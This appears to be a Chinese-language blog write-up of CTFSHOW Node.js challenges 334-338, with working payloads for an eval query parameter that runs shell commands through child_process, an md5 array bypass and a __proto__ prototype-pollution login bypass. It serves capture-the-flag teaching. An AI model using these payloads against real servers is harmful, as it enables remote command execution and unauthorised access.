 ```yaml
---
title: nodejs
date: 2024-08-05 16:36:39
permalink: /pages/a11a87/
categories:
  - wp
tags:
  - 
author: 
  name: ajay
  link: https://the0n3.top
---
```

# CTFSHOW nodejs 334-338

nodejs是跨平台的 JavaScript 后端语言，用于开发服务器端应用程序。它能够执行文件读取、数据库查询等服务器端操作

参考文章

[CTFSHOW-nodejs](https://blog.csdn.net/Yb_140/article/details/124510337)
[node官方文档](https://nodejs.cn/api/)
[node官方文档--子进程](https://nodejs.cn/api/child_process.html#child-process)

## web 334 审计

下载文件添加zip扩展名，解压得到两个js文件

user.js里存储了用户名，密码

![user](https://the0n3.top/medias/show-nodejs/1.png)

login.js里存放了登录的操作过程

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```


关键语句，登录的用户名不能等于“CTFSHOW”,登录用户名的大写等于存放的用户名“CTFSHOW”，密码等于存放的密码“123456”


所以，name=ctfshow，pwd=123456

## web 335 命令执行

查看源码，?eval，提示get传参执行命令，类似php的eval函数

![exec](https://the0n3.top/medias/show-nodejs/2.png)

看了这个文档，带exec的应该都能直接执行命令吧(稍加思考)

```
# payload1，成功
?eval=require("child_process").execSync("ls;tac fl00g.txt");
# payload2，失败
?eval=require("child_process").exec("ls");
```


execSync可以执行，exec不能直接执行命令的原因，execSync 是同步函数，它可以直接在 require 语句后调用，并立即返回执行结果，可以直接在一行代码中调用它来执行命令并获取输出。那么同进程的其他命令执行函数也是如此？

## web 336 命令执行

上一题payload打不通了。换个函数，spawnSync()，不要直接像上一题一样写一大坨命令例如：

```
spawnSync("ls;tac flag.txt")
```

在这函数规定了似乎不允许

![spawnSync](https://the0n3.top/medias/show-nodejs/3.png)

这个函数执行不能直接输出到页面，用stdout,toString()方法打印出
来

```
?eval=require("child_process").spawnSync("tac",['fl001g.txt']).stdout.toString();
```

## web 337

关键代码，接受参数a，b。类似php的一个md5比较，数组绕过

```js
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
}
```

url?a[]=1&b[]=1


## web 338 原型链污染

查看routes目录下login.js源码

![login](https://the0n3.top/medias/show-nodejs/4.png)

补充：javascript中，**所有对象都继承自一个原型对象，原型对象增加新的属性时，其他对象都会继承**

```js
const user = {name:"cola"}
const tool = {tools:"Google"}
Object.prototype.lang = "Python"
console.log(tool.lang)
//现在，打印结果出现了tool对象不存在的属性lang，从原型对象那里继承得来
//Python
```

代码会通过copy函数，把请求的内容赋值给user对象，如果我们给__proto__原型对象添加一个新的属性来影响原型对象的属性继承，那么就可以达到secert对象的属性ctfshow='36dboy'的条件

![api](https://the0n3.top/medias/show-nodejs/6.png)

查看源码，登录接口需要传json数据

那这里就可以传一个json对象，{"__proto__":{"ctfshow":"36dboy"}}，这样就让secert继承到ctfshow=36dboy的属性